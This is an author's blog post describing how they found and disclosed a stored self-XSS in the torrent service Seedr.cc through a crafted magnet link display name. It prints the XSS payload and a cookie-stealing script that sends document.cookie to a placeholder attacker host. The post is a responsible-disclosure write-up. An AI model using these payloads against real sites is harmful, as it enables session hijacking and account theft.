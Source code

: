 ```yaml
---
title: How I Discovered a stored Self-XSS Vulnerability in Seedr.cc and Its Impact
description: This blog shares my journey of uncovering a Self-XSS vulnerability in Seedr.cc and how the vulnerability, typically considered less severe, can still have significant impacts.
author: hemantapkh
date: 2024-09-01 02:41:18 +0000
categories: [Cybersecurity]
tags: [security, XSS, hacking]
pin: false
math: false
mermaid: false
image:
  path: https://assets.hemantapkh.com/blog/seedr-xss/thumbnail.webp
  alt: Image from blog.detectify.com
---
```


## What is XSS?

Cross-Site Scripting (XSS) is a type of vulnerability found in web applications where an attacker can inject malicious scripts into content that is then delivered to users. These scripts can execute in the victim's browser, leading to various malicious activities such as stealing cookies, session hijacking, or defacing websites.

### Types of XSS Vulnerabilities

- **Reflected XSS**:
  Occurs when user-supplied data is immediately reflected back in the web application's response, such as in error messages or search results, without being properly sanitized. The malicious script is executed when the crafted URL is clicked and processed, but the data is not stored on the server.

- **Stored XSS**:
  Happens when user input is stored on the server (e.g., in a database, comment field) and later displayed to users without proper sanitization. The malicious script is executed when the stored data is retrieved and rendered.

- **DOM-Based XSS**:
  Involves the execution of a malicious script due to changes made to the client-side DOM environment. Unlike other types, the payload never reaches the server. It is similar to reflected XSS because no information is stored during the attack; both rely on tricking a victim into interacting with a malicious URL.


In this post, we'll focus on my discovery of a stored Self-XSS vulnerability in [Seedr.cc](https://seedr.cc), one of the most popular services that allow users to download torrents directly to the cloud.

## Discovering XSS in Seedr

**December 1, 2020** I was exploring the site. Out of curiosity, I attempted to rename one of my files using characters such as `<`, `>`, `%`, `&`, and `^`, which are typically not allowed in filenames on most sites. The site threw an **"Illegal characters used in filename"** error.

![IMAGE](https://assets.hemantapkh.com/blog/seedr-xss/seedr-error-alert.png)

This got me thinking: 
what if the torrent file itself has these forbidden characters? So, I decided to test this out by creating a magnet link with such characters. 

The basic structure of a torrent [magnet URI](https://en.wikipedia.org/wiki/Magnet_URI_scheme) is as follows:

```text
magnet:?xt=urn:btih:<info_hash>&dn=<name>&tr=<tracker_url>
```

In this URL schema, `dn` stands for display name. First, I experimented with how their system handled illegal characters passed through the magnet link. Surprisingly, they were not filtered or encoded. With this discovery, I decided to take it a step further and craft an XSS vector within the magnet link by modifying the `dn` parameter while keeping the hash of a random torrent.

```text
magnet:?xt=urn:btih:44E6FC672F9476589951726B4693F6CEB2B4759D&dn=<svg onload=alert(1)>
```

> You can find an excellent XSS cheat sheet here: [OWASP XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
{: .prompt-tip }

After adding this magnet link on my Seedr account, my XSS vector was permanently stored. Every time I refresh my home page, an alert box displaying "1" would pop up.

![IMAGE](https://assets.hemantapkh.com/blog/seedr-xss/seedr.jpeg)

## Impact

This vulnerability could have severe implications, including account takeovers via malicious JavaScript injections. Although the XSS vulnerability I discovered is a type of Self-XSS, meaning it executes only in the context of the user who submits the payload, it can still be exploited to target other users.

Imagine someone injecting the similar script into a magnet link and sharing it with unsuspecting victims:

```html
<script>
  var userCookie = document.cookie;
  var img = new Image();
  img.src = 'https://hackersite.com/store?cookie=' + encodeURIComponent(userCookie);
</script>
```

> You can find an excellent XSS prevention cheat sheet here: [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
{: .prompt-tip }


## Reporting the Vulnerability

**December 2** I reported this issue to the Seedr team, and they swiftly implemented a fix.

![IMAGE](https://assets.hemantapkh.com/blog/seedr-xss/seedr-reply-email.png)

Shortly afterward, I found another vulnerability on the same platform, which allowed me to add unlimited torrents beyond my storage limit. This next discovery earned me my first bug bounty reward, which I will discuss in my next blog. Stay tuned! 🚀
